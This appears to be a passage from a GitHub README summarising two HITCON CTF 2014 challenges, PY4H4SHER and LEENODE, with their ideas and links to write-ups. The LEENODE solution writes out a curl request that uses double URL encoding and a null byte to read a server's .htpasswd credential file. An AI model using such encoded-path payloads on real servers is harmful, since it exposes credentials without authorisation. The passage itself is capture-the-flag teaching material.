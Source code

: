 #### Idea

* Python CGI HTTP Pollution  
* MySQL old_password hash collisions  
* [PBKDF2+HMAC hash collisions explained](https://mathiasbynens.be/notes/pbkdf2-hmac)  

#### Source Code  

* [here](hitcon-ctf-2014/py4h4sher)  

#### Solution    

    TBD  

#### Write Ups  

* [HITCON CTF 2014: PY4H4SHER](https://github.com/ctfs/write-ups-2014/tree/master/hitcon-ctf-2014/py4h4sher)  
* [HITCON CTF 2014: PY4H4SHER WRITEUP](http://blog.st3phn.com/2014/08/hitcon-ctf-2014-py4h4sher-writeup.html)  
* [py4h4sher_solution.py](http://pastebin.com/DCbJ0qzi)  
* [HITCON CTF 2014](http://mage-ctf-writeup.blogspot.tw/2014/08/hitcon-ctf-2014.html)  


## **LEENODE**  

Solved: **2 / 1020**  
Difficulty: **★★★**  
Tag: **BlackBox**, **ColdFusion**, **Apache**  

#### Idea  

* Multilayered architecture vulnerability  
* Double Encoding  

#### Source Code  

* [here](hitcon-ctf-2014/leenode)  

#### Solution  

```bash
# get password
$ curl http://1.2.3.4/admin%252f%252ehtpasswd%2500.cfm

# get flag
$ curl http://1.2.3.4/admin/thefl4g.txt 

```

#### Write Ups  

* [HITCON CTF 2014: LEENODE](https://github.com/ctfs/write-ups-2014/tree/master/hitcon-ctf-2014/leenode)  
* [(web) LEENODE [250]](http://cdepillabout.github.io/ctf/2014/hitcon/leenode/writeup.html)  
* [CTF/Writeup/HITCON2014/LEENODE](https://wiki.mma.club.uec.ac.jp/CTF/Writeup/HITCON2014/LEENODE)  
